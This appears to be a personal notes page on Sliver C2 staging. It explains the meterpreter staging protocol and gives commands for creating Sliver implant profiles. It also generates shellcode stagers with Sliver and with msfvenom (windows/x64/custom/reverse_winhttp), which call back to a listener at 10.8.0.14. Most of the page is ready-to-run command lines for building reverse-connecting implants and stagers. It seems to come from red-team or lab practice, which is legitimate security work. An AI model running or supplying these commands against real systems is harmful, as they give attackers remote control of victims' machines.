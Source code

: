 # Sliver Stagers & Listener

Sliver supports the meterpreter staging protocol over TCP and HTTP(S). This protocol is pretty straight forward:

* read the size of the stage 2 payload on the wire (the first 4 bytes for the TCP stager)
* download the stage 2
* allocate the size read in the first step, and write the stage in memory

For this to work, we need the following pieces:

- a staging server (the Sliver server)
- a stage 2 payload (usually a Sliver shellcode, but can be in other formats)
- stagers (generated by msfvenom, the Sliver generate stager command, or a custom one)

Sliver implements staging by reusing the profiles feature. Profiles are sorts of implant blueprints that define a configuration to be reused by the profiles new command. The following command creates a new profile that we will use for our staging listener:

## Resources
- [Learning Sliver C2 (06) - Stagers: Basics](https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/)
- [Sliver Docs: Stagers](https://sliver.sh/docs?name=Stagers)

## Session Profile
```sliver
profiles new --mtls 10.8.0.14:53 --skip-symbols --format shellcode --arch amd64 win64 
```
## Beacon Profile
```sliver
profiles new beacon --mtls 10.8.0.14:53 --skip-symbols --format shellcode --arch amd64 win64-beacon
```

# Stager

Sliver can itself generate stagers, which are very small pieces of shellcode communicating with your stage listener. You may be able to deliver such shellcode with an exploit, or make it part of yet another program that just loads and executes it. The latter is what I’ll demonstrate below.
## Generate Stager

Output format (msfvenom formats, see help generate stager for the list) (default: raw)

```sliver
generate stager --lhost 10.8.0.14 --lport 8443 --arch amd64 --format c --save /tmp
```
## MSVenom Stager

```bash
msfvenom -p windows/x64/custom/reverse_winhttp LHOST=10.8.0.14 LPORT=8443 LURI=/d3sty.woff -f raw -o /tmp/stager.bin
```
  